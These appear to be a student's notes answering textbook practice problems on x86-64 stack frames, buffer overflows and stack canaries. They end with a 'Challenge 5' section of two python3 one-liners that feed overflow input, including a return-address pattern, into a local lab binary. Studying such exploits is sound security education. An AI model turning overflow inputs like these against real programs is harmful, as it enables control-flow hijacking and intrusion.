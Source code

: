 ## PP 3.32
![](Pasted%20image%2020240306102710.png)
![](Pasted%20image%2020240306102726.png)

| Label | PC (rip) | Instr | rdi | rsi | rax | rsp | \*rsp | desc  |
| ----- | -------- | ----- | --- | --- | --- | --- | ----- | ----- |
| F1    | 548      | lea   | 10  | -   | -   | 818 | 565   | add 1 |
| F2    | 54c      | sub   | 10  | 11  | -   | 818 | 565   | sub 1 |
| F3    | 550      | callq | 9   | 11  | -   | 818 | 565   |       |
| L1    | 540      | mov   | 9   | 11  | -   | 810 | 555   |       |
| L2    | 543      | imul  | 9   | 11  | 9   | 810 | 555   |       |
| L3    | 547      | retq  | 9   | 11  | 99  | 810 | 555   |       |
| F4    | 555      | retq  | 9   | 11  | 99  | 818 | 565   |       |
| M2    | 565      | mov   | 9   | 11  | 99  | 820 | -     |       |
## PP 3.34
![](Pasted%20image%2020240306104248.png)
![](Pasted%20image%2020240306104309.png)
1. r12-r15, rbp, rbx, meaning a0-a5
2. a6-7
3. there are only 6
## PP 3.46
1.

| data               | desc           |
| ------------------ | -------------- |
| 0x0123456789ABCDEF | rbx save       |
|                    | alloc 16 bytes |
|                    |                |
2.

| data                                    | desc           |
| --------------------------------------- | -------------- |
| 0x34 00 00 00 00 40 00 76               |                |
| 0x36 0x37 0x38 0x39 0x30 0x31 0x32 0x33 | rbx save       |
| 0x38 0x39 0x30 0x31 0x32 0x33 0x34 0x35 | alloc 16 bytes |
| 0x30 0x31 0x32 0x33 0x34 0x35 0x36 0x37 |                |
3. 0x34 00 00 00 00 40 00 76
4. rbx
5. Allocates a small fixed size but uses gets. Need to add 1 to strlen, too little is allocated. Strcopy should use length
## PP 3.48
1. without
	1. v: 24(%rsp)
	2. buf: (rsp) - 24(rsp)
2. With
	1. v: 8(rsp)
	2. buf: 16(rsp) - 40(rsp)
	3. canaray: 40(rsp)
3. Canary is right after buffer, so it would be overwritten first

## Challenge 5
python3 -c "print('A'\*61)" | ./challenge5 1
python3 -c "print('aaaaaaaa' + '\x00\x00\x00\x00\x00\x40\x07\x01'\*100)" | ./challenge5 2